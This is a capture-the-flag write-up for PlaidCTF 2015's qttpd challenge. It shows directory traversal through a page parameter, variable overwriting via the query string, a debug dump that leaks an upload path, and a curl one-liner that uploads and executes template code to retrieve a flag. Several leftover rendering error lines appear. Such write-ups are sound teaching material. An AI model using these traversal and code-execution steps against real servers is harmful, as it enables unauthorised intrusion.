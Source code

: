 ```yaml
---
title: "PlaidCTF 2015 - qttpd Part 1 (pwnable 200) Writeup"
slug: "plaidctf-2015-qttpd-part-1-pwnable-200-writeup"
date: "2015-05-10 23:33:48.477190"
author_name: "coldwaterq"
author_email: "coldwaterq@gmail.com"
draft: false
toc: false
images:
---
```


At first this challenge looked like a Web challenge. The first problem that popped out when looking at the website was the use of *?page=about*. Anytime I see a website that has a *page=* query parameter the first thing I want to try is directory traversal. And in this case just like in many other CTFs it turned out to be the correct path to start down. Although in this case it was just the beginning.

The first value I tried for *page=* was *../*. This caused the middle of the page to contain what appeared to be binary gibberish. This contained the following intelligible information though:

{language=bash}
~~~~~~~~
.profile
.lastlogin.
errors
httpd.conf
httpd.stripped
includes
pages
www
uploads
flag1
flag2
flag3
~~~~~~~~

This appears to be a directory listing so running with that assumption we continued working.

So of course the next thing I tried was *../flag1* *../flag2* and *../flag3*. None of these worked though. So I checked *../httpd.conf* and this is what I found.

"System Message: ERROR/3 (<string>:, line 25)"
Error in "code-block" directive:
unknown option: "filename".

{language=python}
~~~~~~~~
.. code-block::
   :filename: ../httpd.conf

   num_workers = 16
   master_uid = 100
   master_gid = 100
   master_dir = /home/httpd
   worker_uid = 99
   worker_gid = 99
   chroot_dir = /home/httpd
   upload_dir = /uploads
   serve_dir = /www
   open_timeout = 5
   read_timeout = 5
   pending_timeout = 5
   finished_timeout = 5
   tmpl_timeout = 5
   tmpl_timeout_soft = 2
   tmpl_max_includes = 32
   index = index.shtml
   flag1_path = /home/httpd/flag1
   flag2_path = /home/httpd/flag2

~~~~~~~~

This tells us a few things, but the useful parts for this challenge are that the serve directory is */www*, the default file is *index.shtml*, and uploads go into */uploads*.

So the next file that I requested was the *index.shtml* in the *www/* directory, and these are the useful parts.

"System Message: ERROR/3 (<string>:, line 53)"
Error in "code-block" directive:
unknown option: "filename".

{language=python}
~~~~~~~~
.. code-block::
   :filename: ../www/index.shtml

   <@
       SCRIPT_EXT = ".shtml";
       page = "";

       include("../includes/base.inc");

       if (page == "")
           page = "index";
   @>

   ...

   <@
       path = "../pages/" . page;
       if (exists(path))
       {
           send_file(path);
       }
       else
       {
           path = "../pages/" . page . SCRIPT_EXT;
           if (exists(path))
           {
               include(path);
           }
           else
           {
               printf("File not found (%s)\n", path);
           }
       }
   @>

~~~~~~~~

Two things can be understood from this. First we see that if the file exists without the extension it sends the contents. If it exists with the extension added to the page it is executed. Second we see that *../includes/base.inc* is executed. So the next step is to see what *base.inc* does.

"System Message: ERROR/3 (<string>:, line 90)"
Error in "code-block" directive:
unknown option: "filename".

{language=python}
~~~~~~~~
.. code-block::
   :filename: ../includes/base.inc

   <@
       register_error_handler("../includes/error.inc");
       if (QUERY_STRING)
           parse_query(QUERY_STRING);
       if (POST_PATH && HTTP_CONTENT_TYPE == "application/x-www-form-urlencoded")
       {
           parse_query(read_file(".." . POST_PATH));
       }
   @>

~~~~~~~~

This shows us three things. First on an error *../includes/error.inc* is executed. So we will want to look at that. Second, the query string will clobber all variables previously set. This can be used to overwrite *SCRIPT_EXT* used in index so that any and all files can be executed as shtml. And finally Posts are written to a directory and the full file is specified in the *POST_PATH* variable. There is an uploads directory mentioned in the root directory, and since the posted data is apparently written to disk, there is a good chance that it is written to that directory. However listing that directory doesn't work, so we have to print the contents of POST_PATH to determine the file that we control the contents of.

So now let's see what *../includes/error.inc* contains so that we can maybe find a way to get the value of *POST_PATH*.

"System Message: ERROR/3 (<string>:, line 107)"
Error in "code-block" directive:
unknown option: "filename".

{language=python}
~~~~~~~~
.. code-block::
   :filename: ../includes/error.inc

   <@ if (DEBUG == "on") { var_dump(); } else { @> <@ } @>

~~~~~~~~

This is our lucky day. Because as we can see if we set the query parameter to *DEBUG=on&page=../includes/error&SCRIPT_EXT=inc* we will get all of the variables including *POST_PATH*.

Requesting that a few times you can see that the POST_PATH changes slowly. So two requests close together could be used to have one determine the file, and the next could be used to execute it. However we don't know what to execute.

This is where we have to do a bit of reversing. In the directory listing in the beginning there was a file called *httpd.stripped*. This is a binary file, and if you download it and look at the file you notice that it is an executable. So we loaded that into IDA, and used HexRays to extract the C source. The first thing I did with that source was a ctrl+f for "flag" and found that along with all the other shtml commands was a command of *get_flag*. So without reading the code it is pretty obvious that most likely the thing we need to do is call get_flag().

Now at this point, while I tried to manually make a post, and quickly make the request to execute it, my teammate tecknicaltom wrote a bash one liner to first post the shtml code to call get_flag(), execute error.inc with the debug flag set, and pull out the file that the post data was written to. Then it requested that posted data as the page, and get_flag() was executed returning the flag we needed. The uploaded files ended in .0 so he hard coded that as the extension, and stripped that from the POST_PATH returned. This makes it execute instead of just printing the contents.

The one liner is below:

{language=bash}
~~~~~~~~
POST_PATH=$(curl -i -s -X 'POST' --data-binary foobar 'http://107.189.94.252/?SCRIPT_EXT=.inc&page=../includes/error&DEBUG=on&HTTP_CONTENT_TYPE=application/x-www-form-urlencoded' | grep POST_PATH | sed 's#.* = ##; s#\.0 .*##') ; curl -i -s -X 'POST' --data-binary $'<@ printf("%s",get_flag()); @>\x0d\x0a\x0d\x0a' 'http://107.189.94.252/?SCRIPT_EXT=.0&page=..'$POST_PATH
~~~~~~~~

And the page returned contained the line:

"System Message: ERROR/3 (<string>:, line 128)"
Content block expected for the "code" directive; none found.

{language=python}
~~~~~~~~
.. code:: flag{1down_2togo_hint_650sp1}

~~~~~~~~

Then I proceeded to spend a ton of time trying to figure out the next part of qttpd but never did.
